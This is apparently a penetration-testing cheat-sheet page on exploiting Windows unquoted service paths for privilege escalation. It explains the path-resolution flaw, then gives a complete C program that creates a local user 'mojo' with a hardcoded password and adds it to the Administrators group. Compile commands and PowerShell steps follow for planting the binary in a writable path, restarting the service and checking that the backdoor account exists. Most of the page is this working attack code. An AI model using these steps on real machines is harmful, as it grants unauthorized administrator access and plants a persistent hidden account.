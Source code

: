 # Unquoted Service Paths

Used when we discover a unquoted service that contains a space, and we have write permissions to the directory in the path containing the space.

This is vulnerable due to the way Windows handles spaces in unquoted service paths. By default Windows will append `.exe` everytime the path encounters a space.

```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

We can exploit this by dropping a malicious binary in our writeable directory named the first word before the space.

**adduser.c**

```c
#include <stdlib.h>

int main ()
{
  int i;
  i = system ("net user mojo Password123! /add");
  i = system ("net localgroup administrators mojo /add");
  return 0;
}
```

```bash
# Compile
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

```powershell
cp .\adduser.exe 'C:\Program Files\My Program\My.exe'
Restart-Service $SERVICE_NAME
Get-LocalUser
# mojo is visible
Get-LocalGroupMember Administrators
# mojo is visible
```
